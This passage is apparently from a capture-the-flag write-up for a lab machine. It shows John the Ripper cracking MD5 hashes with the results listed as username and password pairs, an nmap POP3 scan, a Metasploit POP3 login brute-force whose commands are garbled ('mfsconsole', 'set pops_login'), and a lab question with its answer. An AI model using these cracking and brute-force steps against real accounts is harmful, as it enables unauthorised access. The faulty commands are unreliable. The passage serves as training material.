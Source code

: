 ### 🔓 Crack Using John the Ripper:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt passwords -format=Raw-md5
```

**Cracked Results:**

```
scoobydoo2       (seina@fowsniff)     
orlando12        (parede@fowsniff)     
apples01         (tegel@fowsniff)     
skyler22         (baksteen@fowsniff)     
mailcall         (mauer@fowsniff)     
07011972         (sciana@fowsniff)     
carp4ever        (mursten@fowsniff)     
bilbo101         (mustikka@fowsniff)
```

SSH login attempts with these passwords failed.

## ✉️ Exploring POP3

### 🛰 Nmap POP3 Capability Check:

```bash
nmap -sV --script=pop3-capabilities -p 110 10.10.242.74
```

**Capabilities:**

_pop3-capabilities: USER SASL(PLAIN) PIPELINING AUTH-RESP-CODE RESP-CODES TOP UIDL CAPA

### 🛰 using metasploit:

First we need to create two files, one that has the user names and the other that has the passwords. Then
 ```bash
mfsconsole
set pops_login
set RHOST 10.10.242.74
set user_file user.txt
set pass_file pass.txt
run
```

Bam! seina works!

### 📬 Access with Telnet:

Q. Looking through her emails, what was a temporary password set for her?
A. S1ck3nBluff+secureshell

```bash
telnet $IP 110
```
